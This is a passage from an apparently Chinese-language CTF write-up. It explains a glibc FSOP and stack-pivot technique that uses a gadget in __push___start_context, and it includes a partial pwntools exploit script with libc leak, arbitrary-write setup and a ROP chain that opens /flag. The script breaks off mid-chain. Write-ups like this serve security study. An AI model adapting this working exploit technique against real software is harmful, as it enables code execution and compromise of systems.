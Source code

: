 最后整理一下：在`_IO_2_1_stderr_`写rop链，在`_IO_2_1_stdout_`劫持程序流到栈迁移gadget，
并且准备`_IO_read_ptr`来控制rdx为`_IO_2_1_stderr_`，就可以在`puts`时触发rop链打印flag。
到这里为止，就能顺利构造exp了。相比星盟的方案，避免了控制rcx的问题，更加直接了些。

### 不受干扰的栈迁移gadget

`__push___start_context`处的gadget简单好用，它会不会受编译器影响呢？寻找这个函数，发现其位于
`glibc/sysdeps/unix/sysv/linux/x86_64/__start_context.S`，是手写汇编，因此，一直存在。
那么它是什么时候出现的呢？使用git blame，找到这一段的编辑是在[7年前的这个commit]引入的，
对应到版本是`> glibc-2.27`，也就是说从18年到现在都存在这个问题。
可以说是现在越来越安全的情况下的通解之一了。

[7年前的这个commit]: https://github.com/bminor/glibc/commit/25123a1c5c96429d70e75b85a9749b405909d7f2

最讽刺的是这个函数明明是为了引入shadow stack这么一个安全特性而引入的，
却为ROP攻击留下了巨大的隐患。补上了一个洞，却又打开了另一扇门。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './bph'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'set directories /usr/src/debug/glibc-2.39/')
    else:
        t = remote('47.94.214.30', 36878)
    elf = ELF(EXE)
    libc = elf.libc

    # 1. Partial write to leak libc
    t.sendafter(b'token', b'FLAG'.rjust(0x28))
    t.recvuntil(b'FLAG')
    libc_base = u64(t.recv(6) + b'\0\0') - libc.symbols['free'] - 126
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # 2. Call create and set buf_base
    t.sendlineafter(b'3) View note', b'1') # create
    # set *(char *)&_IO_2_1_stdin_.file._IO_buf_base = 0
    t.sendlineafter(b'Size', str(libc.symbols['_IO_2_1_stdin_'] + 0x38 + 1).encode())
    t.sendafter(b'Content', b'\n')

    # 3. Overwrite buf_base and buf_end to perform arbitrary write
    # overwrite => write_base write_ptr write_end buf_base buf_end
    t.recvuntil(b'3) View note')
    t.sendafter(b'3) View note', flat(0, 0, 0,
        # write rop chain on _IO_2_1_stderr_, overwrite _IO_2_1_stdout_ to perform FSOP
        libc.symbols['_IO_2_1_stderr_'], libc.symbols['stdout']))

    pivot_gadget = libc_base + 0x5ef6f  # mov rsp, rdx; ret
    set_rdx_0x7f = libc_base + 0xf9de8  # mov edx, 0x7f; cmovne rax, rdx; ret
    set_rdx_0    = libc_base + 0x16e983 # xor edx, edx; mov rax, rdx; ret
    set_rdx_rax  = libc_base + 0x4b361  # mov edx, eax; mov eax, 0x10; sub eax, edx; ret
    pops = ROP(libc)

    chain = flat([
        pops.rdi.address, -100, # AT_FDCWD
        pops.rsi.address, libc.symbols['_IO_2_1_stdout_'] - 0x18, # where we store "/flag"
```

[House of Apple 2]: https://roderickchan.github.io/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8_io_wfile_underflow_mmap%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81